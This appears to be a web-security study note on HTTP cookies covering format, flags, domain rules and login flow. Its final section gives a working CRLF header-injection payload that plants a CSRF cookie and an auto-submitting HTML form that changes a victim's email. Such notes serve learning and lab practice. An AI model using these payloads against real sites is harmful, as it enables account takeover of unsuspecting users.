 
### General Notes

Created to make [[HTTP]] [[Protocol]] stateful.
- They are textual information installed by a website into the Cookie Jar of the **browser**.
- Storing data on the client side instead of the server side ([[Sessions]]).

> Cookie Jar is storage space where web browser stores cookies.

Can be viewed in JavaScript using `document.cookie` through the DOM, or the Document Object Model.

---
### Cookie Format

Servers can set cookie via the `Set-Cookie` [[HTTP]] header in a response message.
Cookies contain the following data:
* **Cookie Content**: Text Key-Value pairs that contain data.
* **Expiration Date**: The data when the cookie is no longer to be used, or not to be sent by the browser to the server.
* **Path**: sends the cookies to all subsequent requests to this path and everything under it.
* **Domain**: the scope of the cookie, or which domains and subdomains it has access to.
* `HTTPOnly` Flag: only HTML technology can read the cookie. Secure against [[Cross Site Scripting (XSS)]].
* `Secure` Flag: Cookies are only sent over [[HTTPS]].

##### Cookie Policy

Cookies are sent to the valid domain and path, and only when they are not expired.
- They also are managed according to the flags that are set. 
- Cookies are sent to the subdomains of that domain as well.

> The **Path** specifies the folder that the cookie is sent to in the **domain**. If the path is empty, it is sent to the whole domain.

If **domain** is not set, the `Host-only` flag is set, and the cookie is only sent to the exact hostname of the request. 
- The domain becomes set to the hostname.

---
### Cookie Protocol

Login Example: 
1. Browser sends a POST request with username and password
2. Server sends a response with a `set-cookie` header to tell the browser to install the cookie
3. For every further request, the browser considers the cookie data and flags
4. If the checks pass, then a cookie will be inserted in the header of the browser request

> What this does, is that the browser now manages to maintain a *stateful* connection to the server, meaning that all subsequent requests don't need authentication again.

---
### Cookie Domain

A cookie with a domain value specified is only sent to the target with the same domain value.
- A cookie with a domain value different from the target but is a suffix of the target domain then it is also sent.

Higher level subdomains cannot set cookies for lower level subdomains.
- But lower level subdomains can set cookies for higher level subdomains.

> Cookie with `host-only` flag set to true is one that does not have a domain value. Sent only to target domain that set it.

---
### Modifying Cookies for [[Cross Site Request Forgery (CSRF)]]

- A technique to check for adding cookies is through header injection.
```
/?search=mins
Set-Cookie: csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p;
```

- Adding a new line then adding the `Set-Cookie` header with the cookie. To use it, it must be URL-encoded. [[Web Encoding]].
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b
```

- To use it in the HTML payload to set a cookie, replace the `script` tags with:
```HTML
<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

- This loads the page that sets the cookie, then since it isn't an image, the `onerror` attribute is fired submitting the form.
``` HTML
<html> 
	<body> 
		<form action="https://URL/path" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="<csrf-token>" />
		</form> 
		<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body> 
</html>
```

---
